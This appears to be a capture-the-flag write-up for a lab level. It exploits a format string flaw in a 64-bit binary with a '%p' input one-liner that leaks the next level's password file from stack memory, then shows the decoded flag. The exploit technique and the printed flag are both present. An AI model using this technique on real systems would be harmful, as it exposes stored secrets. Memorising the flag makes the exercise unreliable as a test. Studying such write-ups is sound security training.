

## LEVEL 02
---
### For a better understanding of the levels and the solutions, I recommend you to read the [disassemble file](./asm/level02.asm) and the [source file](./src/level02.c). This README only contains the most important parts to solve the level.
---
### Security

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```
#### For this level, the NX security is disabled, so we can use overflow attacks again.
---

The level represents another step in reverse engineering since we are now dealing with a 64-bit program. This means we have to utilize 64-bit registers and instructions. Although this difference is not particularly significant for this level, it introduces new register names and instructions. However, it doesn't matter because we will apply the same automatisms as in the previous levels.

First, we need to identify a vulnerability within the code. If we examine the `main` function, we come across this interesting segment:

```shell
    0x0000000000400a96 <+642>:	lea    -0x70(%rbp),%rax
    0x0000000000400a9a <+646>:	mov    %rax,%rdi
    0x0000000000400a9d <+649>:	mov    $0x0,%eax
    0x0000000000400aa2 <+654>:	callq  0x4006c0 <printf@plt>
```

As we can see below `rdi` is used to store the first argument for the next function called.



Perfect! So the program calls `printf` with a buffer located at -0x70(rbp) as its only argument. As we know, this indicates a format string vulnerability. Now, let's determine what this buffer is.

```shell
    0x00000000004009cd <+441>:	lea    -0x70(%rbp),%rax
    0x00000000004009d1 <+445>:	mov    $0x64,%esi
    0x00000000004009d6 <+450>:	mov    %rax,%rdi
    0x00000000004009d9 <+453>:	callq  0x4006f0 <fgets@plt>
```

As we observed in the chart mentioned earlier, `%rdi` represents the first argument and `%rsi` the second argument (in this case, `%esp` since the second argument is an `int`). Therefore, we can infer that `fgets` is called with the syntax `fgets(buffer, 100)`.

This indicates that we can write any desired content into the `buffer` and exploit it using the appropriate format string to read from and write to memory. Now, the remaining task is to understand how to utilize this vulnerability to obtain the flag.

```shell
    0x0000000000400898 <+132>:	mov    $0x400bb0,%edx
    0x000000000040089d <+137>:	mov    $0x400bb2,%eax
    0x00000000004008a2 <+142>:	mov    %rdx,%rsi
    0x00000000004008a5 <+145>:	mov    %rax,%rdi
    0x00000000004008a8 <+148>:	callq  0x400700 <fopen@plt>
    0x00000000004008ad <+153>:	mov    %rax,-0x8(%rbp)
    [...]
    0x00000000004008e6 <+210>:	lea    -0xa0(%rbp),%rax
    0x00000000004008ed <+217>:	mov    -0x8(%rbp),%rdx
    0x00000000004008f1 <+221>:	mov    %rdx,%rcx
    0x00000000004008f4 <+224>:	mov    $0x29,%edx
    0x00000000004008f9 <+229>:	mov    $0x1,%esi
    0x00000000004008fe <+234>:	mov    %rax,%rdi
    0x0000000000400901 <+237>:	callq  0x400690 <fread@plt>
```

Here is the second part of the code that interests me. What does this part do?

This part of the code opens the file `/home/users/level03/.pass` with read (`r`) permissions and reads 41 bytes from it. The obtained data is then stored inside a buffer located at -0xa0(rbp).

Perfect! Now that we have all the necessary information, let's proceed with exploiting this level.

This program takes two inputs, but the second input is useless in our case. So we know that the second input is empty.

Now we need to know how `printf` can read the buffer at -0xa0(rbp). To do this, we will use the `%p` format string argument. This format string allows us to print the memory. We just need to know how many `%p` we need to write to reach the address `-0xa0(rbp)`.

First we need to understand the way the arguments are passed in x64 program. In x32 program, the arguments are store at the bottom of the stack to be able to access them with a positive offset. In x64 program, the arguments are store in registers. If there are more than 6 arguments (RDI, RSI, RDX, RCX, R8, R9) on Linux, the remaining arguments are stored on the stack. So I have to pass 6 more `%p` to start to read the start.

Now we need to compute the lenght between `$rbp` and `-0xa0(rbp)`. To do this I will use gdb.

```shell
(gdb) x/x $rbp
0x7fffffffe570:	0x00000000
(gdb) x/x $rbp-0xa0
0x7fffffffe4d0:	0x00000000
(gdb) x/x $rsp
0x7fffffffe450:	0xffffe658
```
```
0x7fffffffe4d0 - 0x7fffffffe450 = 0x80
0x80 / 8 (because 64 bits) = 16
```

So we need to pass 16 + 6 `%p` to read the `-0xa0(rbp)` value, the second thing we need to notice is the length of the `.pass` file, it's 41 bytes. So we need to pass 41 / 8 = 5 `%p` to read the `.pass` file.

Let's try it.

```shell
$ (python -c 'print "%p "*27' ; python -c 'print ""') | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe480 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe678 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil)  does not have access!
```

Perfect now we need to decode the hex value to get the flag.

```
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
<= REVERSE BYTES =>
4868373452506e75 51397361354a4145 58674e5743717a37 7358476e68354a35 4d394b6650673348
<= CONVERT IN ASCII =>
Hh74RPnu Q9sa5JAE XgNWCqz7 sXGnh5J5 M9KfPg3H
```

So the flag is `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

---

*Source :*

*https://nixhacker.com/case-of-format-string-in-64-bit-is-it-still-critical/*

*https://www.rapidtables.com/convert/number/hex-to-ascii.html*
